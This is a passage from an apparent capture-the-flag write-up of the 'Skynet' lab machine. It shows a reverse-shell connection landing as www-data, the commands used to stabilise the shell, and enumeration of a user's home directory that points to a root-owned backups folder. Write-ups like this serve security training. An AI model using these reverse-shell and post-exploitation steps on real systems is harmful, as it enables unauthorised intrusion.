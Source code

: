 You can curl this or enter it straight into the address bar.

```      
connect to [<YOUR IP>] from (UNKNOWN) [10.10.146.95] 53430

Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux   
 00:38:45 up 1 min,  0 users,  load average: 0.60, 0.27, 0.10                                                      
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                                
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                              
/bin/sh: 0: can't access tty; job control turned off                                                               
$ whoami
www-data
```

We are now on the box.

## Internal

First I stabilized my shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo; fg
export TERM=xterm
```

Now that we have a stable shell it is time to enumerate. We see that we are in the root of the file system running as the user `www-data`, I went to the `/home` directory to see if we access anything.

```
www-data@skynet:/home/milesdyson$ ls -al

total 36
drwxr-xr-x 5 milesdyson milesdyson 4096 Sep 17  2019 .
drwxr-xr-x 3 root       root       4096 Sep 17  2019 ..
lrwxrwxrwx 1 root       root          9 Sep 17  2019 .bash_history -> /dev/null
-rw-r--r-- 1 milesdyson milesdyson  220 Sep 17  2019 .bash_logout
-rw-r--r-- 1 milesdyson milesdyson 3771 Sep 17  2019 .bashrc
-rw-r--r-- 1 milesdyson milesdyson  655 Sep 17  2019 .profile
drwxr-xr-x 2 root       root       4096 Sep 17  2019 backups
drwx------ 3 milesdyson milesdyson 4096 Sep 17  2019 mail
drwxr-xr-x 3 milesdyson milesdyson 4096 Sep 17  2019 share
-rw-r--r-- 1 milesdyson milesdyson   33 Sep 17  2019 user.txt
```

Looks like we have access to `milesdyson`'s home directory, inside we see the `user.txt` that we can submit as well as his smb share. The thing that sticks out to me the most is the folder owned by root with the name `backups`.
